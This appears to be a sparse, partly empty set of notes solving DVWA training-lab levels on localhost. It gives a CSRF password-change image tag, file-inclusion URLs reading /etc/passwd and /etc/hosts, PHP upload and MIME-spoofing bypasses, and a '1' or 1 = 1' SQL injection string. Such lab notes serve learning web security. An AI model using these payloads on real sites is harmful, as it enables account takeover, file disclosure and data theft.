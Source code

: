 #CSRF

Low: 

{% highlight html %}
<html><head><title></title></head><body><img src="http://127.0.0.1/vulnerabilities/csrf/?password_new=password&password_conf=password" /></body></html>
{% endhighlight %}

Medium:

High:

#File Inclusion

Low:

{% highlight bash %}
http://127.0.0.1/vulnerabilities/fi/?page=/etc/passwd
{% endhighlight %}

Medium:

{% highlight bash %}
http://127.0.0.1/vulnerabilities/fi/?page=file:///etc/hosts
{% endhighlight %}

High:

Upload a file matching: file[0-9].php and hit it: http://127.0.0.1/vulnerabilities/fi/?page=file4.php

#File Upload

Low:

Upload a php file

Medium:

Upload a php file and set its mime type to image/jpeg

High:

#CAPTCHA

Didn't seem to work at all out of the box

Low:

Medium:

High:


#SQLi

Low:

{% highlight sql %}
1' or 1 = 1
{% endhighlight %}

Medium:
